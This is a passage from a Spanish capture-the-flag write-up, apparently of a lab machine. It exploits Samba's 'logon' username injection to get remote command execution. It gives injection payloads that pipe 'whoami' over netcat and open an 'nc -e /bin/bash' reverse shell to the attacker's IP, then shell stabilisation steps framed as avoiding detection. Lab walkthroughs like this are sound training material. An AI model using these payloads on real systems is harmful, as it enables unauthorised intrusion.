Donde [COMANDO] será un comando que ejecutará nuestro objetivo, a esto le llamamos [ejecución remota de comandos](https://www.cloudflare.com/es-es/learning/security/what-is-remote-code-execution/).

Para validar si dicho exploit nos funcionará comenzaremos conectandonos al recurso tmp como lo hicimos antes de la búsqueda de vulnerabilidades. 

```Linux
smbclient //10.129.182.145/tmp -N
```

Dentro de Samba, emplearemos el comando `logon` para hacer la inyección.

```Linux
logon "/= ' nohup COMANDO '"
```

El valor COMANDO no es el valor real que usaremos, en verdad deberemos usar `ping -c1 10.10.16.24`, este comando mandará un ping de nuestro objetivo hacía nuestra computadora, la elección no es arbitraria, es porque la inyección no nos pemite ver el STDOUT (la salida por terminal) de nuestro comando, por ende, si ejecutaramos un comando como 'whoami' no podríamos saber si se realizó correctamente o no, pero con este comando nosotros podemos ponernos a escuchar el tráfico `TCP` de nuestra computadora y ver si efectivamente estamos recibiendo el ping, es decir si nuestra ejecución remota fue efectiva. 

Antes de ejecutar la inyección debemos monitorear el tráfico tcp en busca de ping (ICMP), con el siguinte comando:

```Linux
sudo tcpdump -i tun0 icmp -n
```

1. `tcpdump`:

    - Descripción: Herramienta de captura y análisis de paquetes de red en línea de comandos. Permite interceptar y mostrar los paquetes que pasan por una interfaz de red.
    
2. `-i tun0`:

    - Descripción: Especifica la interfaz de red en la que tcpdump debe escuchar.
    
    - Propósito: tun0 es una interfaz de red de tipo túnel (como una VPN). El uso de -i tun0 indica que se deben capturar paquetes en esta interfaz.

3. `icmp`:

    - Descripción: Filtra los paquetes ICMP (Internet Control Message Protocol).
    
    - Propósito: Solo captura paquetes que pertenecen al protocolo ICMP. Esto incluye mensajes de error y de diagnóstico como ping.

4. `-n`:

    - Descripción: No resuelve nombres de host ni direcciones IP en nombres de dominio.
    
    - Propósito: Muestra las direcciones IP numéricas en lugar de intentar resolverlas a nombres de dominio. Esto puede acelerar la captura y hacer la salida más clara.


Una vez estemos escuchando, ejecutamos la inyección con:

```Linux
logon "/= ' nohup ping -c1 10.10.16.24 '"
```

Nos pedirá una contraseña, podemos ingresar cualquier texto y dar enter. 



Recibimos el ping, por lo que la ejecución remota está funcionando.

Veamos que usuario es el que está ejecutando los comandos mandando el output de `whoami`por `netcat`al puerto 443 de nuestra computadora.

Pongamonos a la escucha con netcat:

```LINUX
nc -nlvp 443
```

1. `-n`:
    
    - Descripción: No realiza resolución de nombres de dominio (DNS) ni nombres de servicios. Solo utiliza direcciones IP numéricas.

    - Propósito: Esto acelera la conexión y evita posibles fallos o retrasos debido a la resolución DNS.
2. `-l`:
    
    - Descripción: Escucha en modo servidor. netcat esperará conexiones entrantes en el puerto especificado.
    
    - Propósito: Configura netcat para funcionar como un servidor que espera conexiones entrantes.

3. `-v`:

    - Descripción: Modo verbose (detallado). Proporciona información detallada sobre lo que está haciendo netcat.

    - Propósito: Muestra más información sobre las conexiones, útil para depuración y monitoreo.

4. `-p 443`:

    - Descripción: Especifica el puerto en el que netcat debe escuchar. En este caso, el puerto 443.

    - Propósito: El puerto 443 es el puerto predeterminado para tráfico HTTPS, aunque en este contexto se está usando simplemente como un puerto para escuchar conexiones entrantes.

Inyectemos el comando:

```Linux
logon "/= ' nohup whoami | nc 10.10.16.24 443 '"
```


De esta manera tenemos un muy claro vector de ataque para crear una [reverse shell](https://medium.com/@aytzzz/what-is-a-reverse-shell-9d53f1b4b450) en la fase de post-explotación.

## Post-Explotación

### Acceso Inicial

Obtendremos acceso remoto al objetivo mediante una reverse shell enviada y recibida con netcat.

Comenzamos recibiendo tráfico desde nuestro equipo poniendonos en escucha con netcat:

```LINUX
nc -nlvp 443
```

E inyectamos el siguiente comando en el objetivo:

```Linux
logon "/= ' nc -e /bin/bash 10.10.16.24 443 '"
```

- `-e /bin/bash`: Este parámetro indica que netcat debe ejecutar /bin/bash (la shell de Bash) cuando se establezca la conexión.



Aquí ya tenemos una shell, pero requerimos "[estabilizarla](https://invertebr4do.github.io/tratamiento-de-tty/#)".

### Estabilizando la Shell

1. Iniciamos una sesión de shell que no guarde registros de comandos (para que no se percaten que estamos conectados)

    ```LINUX
    script /dev/null -c bash
    ```

    

2. Comprobamos los valores de las varibales de entorno `$SHELL` y `$TERM`

    ```LINUX
    echo $SHELL && echo $TERM
    ```
    

3. Colocamos la shell en segundo plano con la combinación de teclas: `CTRL+Z`
    
    

    Esto nos deberá regresar a primer plano la sesión de nuestra computadora, no la computadora objetivo.

    El trabajo que se quedó en segundo plano se puede ver con el comando `jobs`.

    

4. Hacemos que el input de nuestra terminal no se envíe interpretado a la shell remota (raw) y evitamos duplicar la impresión de nuestros comandos escritos (echo) mediante e inmediatamente traeremos el proceso a primer plano (`fg`):

    ```LINUX
    stty raw -echo; fg 
    ```
    
5. Reseteamos la `xterm`

    !!! note "Texto "invisible"
        El texto en este punto **NO SE PODRÁ VER** confía en que se está escribiendo y escribe con cuidado.

    ```
    reset xterm
    ```

    Se deberá ver así la shell:

        


6. Ajustar el tamaño de la shell para que coincida con nuestra shell principal:

    - Comenzamos abriendo otra terminal y vemos las proporciones de nuestra shell con:

        ```LINUX
        stty size
        ``` 
              

    - En la shell reversa establecemos la misma medida con:

        ```LINUX
        stty size 34 columns 140
        ```
                  


### Enumeración Post-Explotación
No aplica porque ya somos `root`.

#### Enumeración del Sistema
Encontraremos las flags mediante los comandos:

**Flag de usuario**

```LINUX
find \-name user.txt
```

**Flag de root**

```LINUX
find \-name root.txt
```

      

### Escalada de Privilegios
No aplica porque ya somos `root`.


